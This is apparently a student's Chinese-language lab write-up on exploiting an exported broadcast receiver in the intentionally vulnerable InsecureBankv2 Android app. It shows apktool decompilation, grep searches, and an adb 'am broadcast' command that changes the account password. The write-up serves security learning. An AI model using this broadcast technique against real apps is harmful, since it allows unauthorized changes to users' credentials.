

# Exploiting Android Broadcast Receivers

### 1. 实验过程

- **缺陷代码定位**

    - 使用 apktool 反编译 `InsecureBankv2.apk`

        ```
        C:> apktool d InsecureBankv2.apk
        ```

    - 在 `AndroidManifest.xml` 中找到广播接收器声明

        

    - 在反编译 Project 下搜索 `theBroadcast`，找到响应 action 的活动，并在 `ChangePassword` 中找到关键字 `(phonenumber, newpass)`

        ```
        $ grep 'theBroadcast' -R .
        ```

        

        

    - 继续在反编译 Project 中搜索上述关键词，并在 `MyBroadcastReceiver` 中定位传参的关键代码

        ```
        $ grep 'MyBroadcastReceiver' -R .
        ```

        

        

    - 通过以下指令触发修改密码的广播

        ```
        # am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 -–es newpass Idchannov@123!
        ```

- **漏洞利用效果展示**

    

### 2. 遇到的问题

- 使用广播方式修改密码未成功

    

    **错误原因：** Walkthroughs笔误，两处传参均y应使用 `--es`

- **【Unsolved】** 原代码中方法名为 `MyBroadcastReceiver`，但广播指令使用这个时漏洞利用不成功，转而使用` MyBroadCastReceiver` 后成功了，Walkthroughs 中也是这么写的，想不明白为什么，蹲个解答~qwq~

### 3. 参考资料

- [Intent 中重要方法：setAction()、setData()、setType()、putExtra()](https://www.cnblogs.com/shuiyin/p/6550999.html)

- [广播概览 | Android Developers](https://developer.android.com/guide/components/broadcasts#java)
